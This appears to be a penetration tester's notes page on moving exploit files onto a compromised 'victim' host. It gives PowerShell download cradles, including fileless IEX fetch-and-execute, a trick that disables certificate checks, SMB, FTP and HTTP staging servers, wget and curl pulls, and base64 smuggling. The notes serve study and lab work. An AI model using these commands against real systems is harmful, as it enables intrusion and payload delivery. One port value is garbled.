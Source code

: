 ```yaml
---
title: Notes | Transfer Files
author: Zeropio
date: 2022-07-13
categories: [Notes, System]
tags: []
permalink: /notes/system/transfer-files
---
```


# Windows 

## PowerShell Base64 Encode & Decode 

Let's:
- Check hash
- Encode 
- Transfer

```console
zero@pio$ md5sum exploit
zero@pio$ cat exploit | base64 -w 0; echo

[string]
```

In the victim:
```console
PS C:\victim> [IO.File]::WriteAllBytes("C:\Users\Public\exploit", [Convert]::FromBase64String("[string]"))
```

To check the hash:
```console
PS C:\victim> Get-FileHash C:\Users\Public\exploit -Algorithm md5
```

> Windows CMD has a maximun lenght of 8191 characters
{: .prompt-warning }

## PowerShell Web Downloads 

With the **System.Net.WebClient** class we can download contents from http. This are the methods aviable

| **Method**   | **Description**    |
|--------------- | --------------- |
| `OpenRead` |	Returns the data from a resource as a Stream. |
| `OpenReadAsync` |	Returns the data from a resource without blocking the calling thread. |
| `DownloadData` |	Downloads data from a resource and returns a Byte array. |
| `DownloadDataAsync` |	Downloads data from a resource and returns a Byte array without blocking the calling thread. |
| `DownloadFile` |	Downloads data from a resource to a local file. |
| `DownloadFileAsync` |	Downloads data from a resource to a local file without blocking the calling thread. |
| `DownloadString` |	Downloads a String from a resource and returns a String. |
| `DownloadStringAsync` |	Downloads a String from a resource without blocking the calling thread. |

- File download 

```console
PS C:\victim> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
ps C:\victim> (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

- Fileless method 

```console
PS C:\victim> IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
PS C:\victim> (New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX
```

- Invoke-WebRequest

```console
PS C:\victim> Invoke-WebRequest  <Target File URL> -OutFile <Output File Name>
```

More examples [here](https://gist.githubusercontent.com/HarmJ0y/bb48307ffa663256e239/raw/f1e0d1877d1b9dd6b3fc8bae18ff6cec6ea6eaa8/DownloadCradles.ps1).

## Troubleshooting

- Internet Explorer first-launch configuration has not been completed 

```console
PS C:\victim> Invoke-WebRequest <Target File URL> | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.

PS C:\victim> Invoke-WebRequest <Target File URL> -UseBasicParsing | IEX
```

- Certificate not trusted

```console
PS C:\victim> IEX(New-Object Net.WebClient).DownloadString('<Target File URL')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel."

PS C:\victim> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## SMB downloads 

First create the server:
```console
zero@pio$ sudo impacket-smbserver share -smb2support /tmp/smbshare
```

Then copy it:
```console
PS C:\victim> copy \\<your ip>\share\<exploit>

You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```

If this happen we need to create it with credentials.
```console
zero@pio$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password pass
```

And then mount it:
```console
PS C:\victim> net use n: \\<your ip>\share /user:test pass
```

## FTP downloads 

With Python3 we can start a FTP server:
```console
zero@pio$ sudo pip3 install pyftpdlib
zero@pio$ sudo python3 -m pyftpdlib --port 2x1table
```

In the victim:
```console
PS C:\victim> (New-Object Net.WebClient).DownloadFile('ftp://<your ip>/<exploit>', '<ouput file>')
```


--- 

# Some tools

## wget

We can start a Python http server on our machine:
```console
zero@pio$ sudo python3 -m http.server 80

  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And then download our files:
```console
victim@machine$ wget http://<ip>:<port>/exploit.sh 
victim@machine$ curl http://<ip>:<port>/exploit.sh -o exploit.sh 
```

## scp

We can even use **scp**:
```console
zero@pio$ scp exploit.sh victim@machine:/tmp/exploit.sh 
```

## base64

If the machine has a firewall that prevent this the file transfer we can encode it:
```console
zero@pio$ base64 shell -w 0
  f0VM.. <SNIP> ...mDwU
```

And in the victim:
```console
victim@machine$ echo f0VM... <SNIP> ...mDwU | base64 -d > shell
```

---

# Validating

The **file** command can be use to validate:
```console
victim@machine$ file shell
  shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

Also we can check the hash in both machines:
```console
zero@pio$ md5sum shell

victim@machine$ md5sum shell
```




